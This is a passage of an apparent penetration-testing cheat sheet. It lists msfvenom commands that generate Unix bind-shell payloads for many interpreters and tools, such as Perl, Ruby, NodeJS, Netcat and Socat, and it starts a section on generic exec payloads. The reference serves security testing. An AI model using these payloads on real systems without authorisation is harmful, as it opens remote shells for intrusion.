 `$ msfvenom -p cmd/unix/bind_busybox_telnetd lport=<PORT>`

- **Perl**

`$ msfvenom -p cmd/unix/bind_perl lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_perl_ipv6 lport=<PORT>`

- **Zsh**

`$ msfvenom -p cmd/unix/bind_zsh lport=<PORT>`

- **Ruby**

`$ msfvenom -p cmd/unix/bind_ruby lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_ruby_ipv6 lport=<PORT>`

- **Java**

`$ msfvenom -p cmd/unix/bind_jjs lport=<PORT>`

- **Lua**

`$ msfvenom -p cmd/unix/bind_lua lport=<PORT>`

- **NodeJS**

`$ msfvenom -p cmd/unix/bind_nodejs lport=<PORT>`

- **R**

`$ msfvenom -p cmd/unix/bind_r lport=<PORT>`

- **Netcat**

1. OpenBSD Method

`$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>`

2. Traditional GNU Method

`$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>`

`$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>`

- **Socat**

`$ msfvenom -p cmd/unix/bind_socat_udp lport=<PORT>`

- **Telnet**

`$ msfvenom -p cmd/unix/bind_inetd lport=<PORT>`

#### 2.4.3 - Exec Payloads

##### 2.4.3.1 - Generic

- **Unix**

`$ msfvenom -p cmd/unix/generic cmd=<unix_commands>`

##### 2.4.3.2 - Add User
